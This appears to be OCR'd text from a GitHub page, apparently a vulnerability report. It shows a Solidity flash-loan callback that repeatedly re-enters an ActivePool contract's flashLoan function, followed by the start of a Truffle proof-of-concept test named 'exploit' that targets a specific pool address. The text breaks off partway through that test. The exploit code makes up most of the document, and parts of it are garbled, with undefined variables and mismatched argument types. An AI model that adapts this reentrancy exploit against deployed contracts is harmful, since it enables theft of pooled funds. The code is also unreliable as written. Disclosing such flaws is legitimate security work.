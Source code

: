 ```
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32 s) {
      
    if(IERC20(token).balanceOf(address(this)) < reachedAmount) {

         // reenter the call to get your amount
IActivePool().flashLoan(address(this),"0x17144556fd3424edc8fc8a4c940b2d04936d17eb",3333,"0x00");
       }
// once gained you do the actions you want to !
   
//gain approval for collateral.transferFrom and returns flashSuccessValue
IERC20(token).approve(msg.sender,type(uint256).max);
 s = 0x439148f0bbc682ca079e46d6e2c2f0c1e3b820f1a291b069d8882abf8cf18dd9;

// the loan will be paid 3333 for eah call and each call will give back 0 fees !
   }
}

```

PoC of truffle :

```
var exploit = artifacts.require("exploit");
var ierc20 = artifacts.require("IERC20");
var iactivepool = artifacts.require("IActivePool");
const Web3 = require('web3');



contract('exploit', function(accounts){

  let stuffInstance;
  const activePoolAddress = "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590";
```